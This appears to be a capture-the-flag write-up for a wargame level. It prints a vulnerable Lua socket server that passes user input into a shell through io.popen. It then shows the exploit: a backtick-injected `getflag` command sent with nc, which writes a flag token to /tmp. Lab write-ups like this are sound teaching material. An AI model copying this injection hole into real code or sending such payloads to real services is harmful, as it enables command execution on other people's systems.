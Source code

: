 ## LEVEL 11

---

This level is similar to previous levels but this time it's `.lua` file.

```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

In this level I don't have any hidden file or token file but we have `echo` command and our file is owned by flag11.

So I need to execute `getflag` through the command. Previously I saw that if I use back quotes `echo` can run the command inside and I will redirect the output of this command otherwise `level11` will redirect the output inside `sha1sum`.

```shell
$ nc 127.0.0.1 5151
Password: `getflag > /tmp/flag`
Erf nope..
$ cat /tmp/flag
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

---

*Source :*

*https://linux.die.net/man/1/nc*